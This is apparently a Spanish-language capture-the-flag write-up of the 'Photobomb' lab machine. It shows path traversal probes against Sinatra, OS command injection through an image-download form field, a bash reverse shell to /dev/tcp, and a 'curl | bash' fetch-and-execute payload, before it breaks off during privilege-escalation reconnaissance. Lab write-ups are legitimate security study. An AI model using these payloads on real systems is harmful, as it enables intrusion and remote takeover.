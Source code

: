 Tanto [en](https://security.snyk.io/vuln/SNYK-RUBY-SINATRA-22017) como [en](https://sinatrarb.com/protection/path_traversal) 
encuentro que sinatra es vulnerable a path traversal urlencodeando los '/'(%2f) y los '.'(%2e)
```
photobomb.htb/ui_images%2f..%2f..%2f..etc/passwd -> bad request
photobomb.htb/ui_images/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd -> /etc/passwd
photobomb.htb/ui_images/test -> /ui_images/test
photobomb.htb/ui_images/../../../../etc/passwd -> /etc/passwd
photobomb.htb/ui_images//....//....//....//etc/passwd -> /ui_images/..../..../..../etc/passwd 
photobomb.htb/ui_images//..//..//..//etc/passwd -> /ui_images/etc/passwd
```
Despues de un bune rato haciendo pruebas no doy con ninguna vulnerabilidad. Parece que está bien sanitizado. 

--------------------------
# Part 3: OS Command Inyection

La parte de la descarga de imágenes...
```console
└─$ curl -s -X POST http://photobomb.htb/printer -H 'Authorization: Basic cEgwdDA6YjBNYiE='  \
- d 'photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=jpg&dimensions=3000x2000' -i # -> 200 ok
-d 'photo=../../../../etc/passwd&filetype=jpg&dimensions=3000x2000' # -> invalid photo
-d 'photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg;ping -c 1 10.10.14.3&filetype=jpg&dimensions=3000x200' # -> Source photo does not exist.
-d 'photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=jpg&dimensions=3000x200;ping -c 1 10.10.14.3' # ->  Invalid dimensions.
-d 'photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=jpg;test&dimensions=3000x2000' # -> Failed to generate a copy of masaaki-komori-...jpg 

-d 'photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=jpg;ping -c 1 10.10.14.3&dimensions=3000x2000' 
# sudo tcpdump icmp -n -i tun0  -> paquete recibido -> RCE
```
Al recibir una petición, me monto un servidor con python y creo un archivo index.html con este contenido
```bash
#!/bin/sh
bash -c 'bash -i >& /dev/tcp/10.10.14.3/666 0>&1'
```
Mandando esto: ```-d 'photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=jpg;curl http://10.10.14.3 | bash&dimensions=3000x200'```
(al pipearlo con bash ejecuta el comando escrito en index.html gracias al seabang "#!/bin/sh")

--------------------------
# Part 4: Dentro del sistema -> Path hijacking

En el directorio por el que accedo encuentro:
```console
wizard@photobomb:~/photobomb$ cat photobomb.sh 
#!/bin/sh
cd $(dirname $(readlink -f "$0"))
ruby server.rb >> log/photobomb.log 2>&1
```
Subo mi [script](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh) de reconocimiento: 
Como bien he leido en la documentacion de Sinatra bajo el puerto 4567 corre ruby
```console
wizard@photobomb:~/photobomb$ netstat -tulvpn | grep "4567"
tcp        0      0 127.0.0.1:4567          0.0.0.0:*               LISTEN      769/ruby
```
En /opt existe el script cleanup.sh, cuyo propietario es root y que supongo que corre a intervalos de tiempo regulares.
```bash
```